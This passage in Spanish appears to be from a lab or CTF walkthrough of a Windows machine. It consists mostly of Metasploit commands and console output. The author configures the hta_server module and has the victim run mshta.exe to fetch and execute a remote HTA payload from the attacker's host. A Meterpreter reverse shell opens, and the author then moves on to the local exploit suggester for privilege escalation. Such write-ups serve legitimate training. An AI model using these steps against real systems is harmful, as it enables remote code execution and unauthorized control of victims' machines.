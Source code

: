 Lo configuramos y lo ejecutamos:
```bash
msf6 exploit(windows/misc/hta_server) > set LHOST Tu_IP
LHOST => Tu_IP
msf6 exploit(windows/misc/hta_server) > set LPORT 5555
LPORT => 5555
msf6 exploit(windows/misc/hta_server) > set SRVPORT 80
SRVPORT => 80
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on Tu_IP:5555 
[*] Using URL: http://Tu_IP/tqAnegB.hta
```

Copiamos la URL que nos dio y en la máquina víctima, usamos la herramienta **mshta.exe** para que mande una sesión de **meterpreter**:
```batch
PS C:\Windows\Temp> ./mshta.exe http://Tu_IP/tqAnegB.hta
```

Observamos el **metasploit**:
```bash
[*] Server started.
[*] 192.168.1.010  hta_server - Delivering Payload
[*] Sending stage (177734 bytes) to 192.168.1.010
[*] Meterpreter session 2 opened (Tu_IP:5555 -> 192.168.1.010:49166) at 2024-12-02 22:12:25 -0600

msf6 exploit(windows/misc/hta_server) > sessions

Active sessions
===============

  Id  Name  Type                     Information                             Connection
  --  ----  ----                     -----------                             ----------
  2         meterpreter x86/windows  WIN-4QU3QNHNK7E\info @ WIN-4QU3QNHNK7E  Tu_IP:5555 -> 192.168.1.010:49166 (192.168.1.010)
```
Ya tenemos nuestra sesión de **meterpreter**.

Ahora podemos usar el módulo `post/multi/recon/local_exploit_suggester`, que va a identificar los Exploits a los que es vulnerable la máquina víctima:
```bash
msf6 exploit(windows/misc/hta_server) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester  .                normal  No     Multi Recon Local Exploit Suggester

msf6 exploit(windows/misc/hta_server) > use 0
msf6 post(multi/recon/local_exploit_suggester) >
```
